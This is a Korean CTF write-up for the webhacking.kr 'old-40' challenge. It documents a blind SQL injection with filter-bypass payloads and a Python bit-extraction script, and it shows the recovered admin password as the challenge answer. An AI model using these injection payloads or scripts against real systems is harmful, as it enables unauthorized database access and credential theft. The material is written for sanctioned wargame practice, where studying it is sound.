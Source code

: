 ```yaml
---
title: ["[Webhacking.kr] old-40 (sqli - 50)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, blind sqli, binary search, blackbox]
---
```

## Intro

또 블랙박스 SQLi다...  
인젝션이 가능한 파라미터와 필터링되는 문구들을 찾아보자.  

## Analysis

`no`, `id,` `pw` 세 파라미터 중, `no`만 인젝션이 동작하는 것으로 보인다.  
```
?no=1%0a%7c%7c%0a1%23
```  
`no`에 위와 같은 값을 넣으면, `Success - guest` 응답이 오고,  
`#` 주석 뒤에 필터링테스트를 진행할 수 있어.  
만약 문자열이 필터링된다면, `access denied` 응답이 온다.  

여러 구문들을 테스트한 결과,  
`select`, `or`, ` `, `ascii` 등이 필터링 된다.  

```
?no=0||no=2#
```  
위와 같은 페이로드를 넣으면 간단히 `admin`이 나올 줄 알았으나,  
`admin`의 `password`를 입력하라고 한다.  

즉, `password`를 Blind SQLi로 구해내는 문제로 보인다.  
구문이 참이라면, `admin password` 창이 나오고,  
거짓이라면 `Failure`가 뜰 것이다.  

```
?no=0||no=2&&length(pw)=10#
```  

`>`가 필터링되지 않아, `old-21`에서 사용했던 binary search based blind sqli를 그대로 사용할 수 있다.  

## Payload

```python
import requests

url = "https://webhacking.kr/challenge/web-29/"
cookies = {"PHPSESSID": "pdklhoab5em3bjokn1f6jji580"}

pw_len = 0
for i in range(1,50):
    payload = f"0%7c%7cno=2%26%26length(pw)={i}%23"
    response = requests.get(f"{url}?no={payload}&id=guest&pw=guest", cookies=cookies)

    if('admin password' in response.text):
        pw_len = i
        print(f"Password length is {pw_len}")
        break

pw = ''
for i in range(1, pw_len+1):
    char = 0
    for bit in range(6, -1, -1):
        payload = f"0%7c%7cno=2%26%26conv(hex(substr(pw,{i},1)),16,10)%26{1<<bit}%23"
#        payload = f"1'or ord(substr(pw,{i},1))%26{1<<bit} and id='admin"
        response = requests.get(f"{url}?no={payload}&id=guest&pw=guest", cookies=cookies)

        if('admin password' in response.text):
            char += 1<<bit
    pw += chr(char)
    print(f"Password is {pw}")
    
```

```
Password length is 10
Password is l
Password is lu
Password is luc
Password is luck
Password is luck_
Password is luck_a
Password is luck_ad
Password is luck_adm
Password is luck_admi
Password is luck_admin
```
